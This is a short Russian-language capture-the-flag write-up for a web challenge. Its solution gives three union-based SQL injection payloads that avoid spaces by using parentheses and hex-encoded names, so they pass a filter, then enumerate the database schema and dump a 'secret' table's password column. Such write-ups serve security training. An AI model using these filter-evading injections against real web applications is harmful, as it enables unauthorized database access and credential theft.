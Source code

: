 # Укус гадюки

### Сложность: 200
### Категория: web

### Описание:
Наши жрецы сокрыли секретный код для открытия пирамиды великого Хеопса где-то в глубине этой скрижали, помогите им разузнать его.<br>
Формат флага: начинается с решетки (#)

### Хинты:
Зачастую, **Неверный Id!**  === **FILTERED**

### Решение:
Sql-injection в которой невозможны пробелы.

Три запроса:
~~~~
0x696e666f726d6174696f6e5f736368656d61 = information_schema
?id=(-1)union(select(1),(select(group_concat(table_name))from(information_schema.tables)where(table_schema)!=(0x696e666f726d6174696f6e5f736368656d61)))
~~~~
Узнаем о существовании таблицы secret

~~~~
0x736563726574 = secret
?id=(-1)union(select(1),(select(group_concat(COLUMN_NAME))from(information_schema.columns)where(TABLE_NAME)=(0x736563726574)))
~~~~
Узнаем о столбцах таблицы secret - name,pass

~~~~
?id=(-1)union(select(1),(SELECT(group_concat(pass))FROM(secret)))
~~~~
Получаем флаг